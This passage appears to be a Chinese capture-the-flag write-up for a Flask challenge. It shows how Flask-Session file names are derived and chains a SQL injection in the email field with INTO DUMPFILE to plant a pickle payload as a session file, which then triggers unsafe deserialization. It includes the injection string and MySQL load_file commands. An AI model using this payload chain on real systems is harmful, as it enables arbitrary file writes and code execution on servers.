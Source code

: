 ```

    def open_session(self, app, request):
        \# 从cookie中获取到sid
        \# 格式 Cookie: session=675b6ec7-95bd-411f-a59d-4c3db5929604
        \# sid 即为 675b6ec7-95bd-411f-a59d-4c3db5929604
        sid = request.cookies.get(app.session\_cookie\_name)
        if not sid:
            sid = self.\_generate\_sid()
            return self.session_class(sid=sid, permanent=self.permanent)
        ...
        data = self.cache.get(self.key_prefix + sid)
        if data is not None:
            return self.session_class(data, sid=sid)
        return self.session_class(sid=sid, permanent=self.permanent)
    ...
```
其中`self.key_prefix`即为`bdwsessions`，因此假设cookie中的sesssion值为`675b6ec7-95bd-411f-a59d-4c3dbchybeta`，则`self.key_prefix + sid`即为`bdwsessions675b6ec7-95bd-411f-a59d-4c3dbchybeta`，然后这串字符串进行MD5得到的结果`78f634977cbacf167dfd9656fe9dd5f3`即为`675b6ec7-95bd-411f-a59d-4c3dbchybeta`对应的session文件名。

同时根据`config.py`:
```
SQLALCHEMY\_DATABASE\_URI = "mysql://root:password@localhost/flask?charset=utf8"
SESSION\_FILE\_DIR = "/tmp/ffff"
```
可以知道session文件的保存路径在`/tmp/ffff`，以及用户为root，因此具有文件导出的权限的可能性很大。

流程

结合`Python is the best language 1`中的sql注入漏洞，我们梳理出如下的攻击流程：

+ 1.  本地生成序列化文件，并且进行十六进制编码
+ 2.  通过sql注入漏洞outfile出session文件
+ 3.  访问index，同时带上session文件对应的session值，触发`open_session`中的`self.cache.get`，进行反序列化攻击

假设前面生成的序列化文件存在于`/tmp/ffff/chybeta`，建议使用mysql的hex转码来进行十六进制的转换:
```
mysql> select hex(load_file('/tmp/ffff/chybeta')) into outfile '/tmp/ffff/exp';
Query OK, 1 row affected (0.00 sec)
```
![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210627-54001108-302d-1.jpeg)

以使用`675b6ec7-95bd-411f-a59d-4c3dbchybeta`作为cookie为例，则其session文件存在于`/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3`

在十六进制的序列化串前面添加`0x`，构造邮箱处的注入点：
```
select id from user where email = 'test'/**/union/**/select/**/0x63636F6D6D616E64730A../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com'
```
也即在注册的邮箱处填入：

    test'/**/union/**/select/**/0x63636F6D6D616E64730A.../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com
